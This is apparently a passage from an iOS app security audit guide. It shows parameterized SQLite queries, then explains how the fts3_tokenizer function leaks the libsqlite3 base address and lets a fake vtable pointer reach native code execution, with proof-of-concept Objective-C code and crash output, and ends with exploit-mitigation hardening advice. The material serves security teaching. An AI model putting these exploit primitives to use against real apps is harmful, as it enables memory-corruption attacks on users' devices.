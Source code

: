 Correct example:

```objectivec
const char *sql = "SELECT username FROM users where uid = ?";
sqlite3_prepare_v2(db, sql, -1, &selectUid, NULL);
sqlite3_bind_int(selectUid, 1, uid);
int status = sqlite3_step(selectUid);
```

What's even worse, libsqlite3.dylib in iOS supports `fts3_tokenizer` function, which has two security issues by design. This SQL function has two prototype:

```sql
SELECT fts3_tokenizer(<tokenizer-name>);
SELECT fts3_tokenizer(<tokenizer-name>, <sqlite3_tokenizer_module ptr>);
```

The first from can be abused to leak the base address of libsqlite3.dylib, which breaks ASLR.

```objectivec
FMResultSet *s = [db executeQuery:@"SELECT hex(fts3_tokenizer('simple')) as fts;"];
while ([s next]) {
    NSString *val = [s stringForColumn:@"fts"];
    NSLog(@"val: %@", val); // the address of simpleTokenizerModule in libsqlite3.dylib, in big endian
}
```

If the second argument is given, it registers a new tokenizer and the argument is the address of a virtual function table. This will lead to native code execution via SQLite3 callbacks:

```objectivec
[db executeUpdate:@"select fts3_tokenizer('simple', x'4141414141414141');"]; // a fake virtual table
[db executeUpdate:@"drop table a if exists;"]; // in case the virtual table already extst
FMResultSet *result = [db executeQuery:@"create virtual table a using fts3;"];
NSLog(@"%d", [result next]); // trigger pointer dereference
```

The crash information:

```
thread #1: tid = 0x19ac77, 0x0000000184530764 libsqlite3.dylib`___lldb_unnamed_symbol1073$$libsqlite3.dylib + 1500, queue = 'com.apple.main-thread', stop reason = EXC_BAD_ACCESS (code=1, address=0x4141414141414149)
```

## App hardening

### Hardening: Enable exploit mitigation compile-time options

In order to make exploiting iOS applications harder for the attacker, make sure you
enable platform exploit mitigation options.

> **Audit tip:** Check that compiler and linker flags for exploit mitigation
> are enabled.
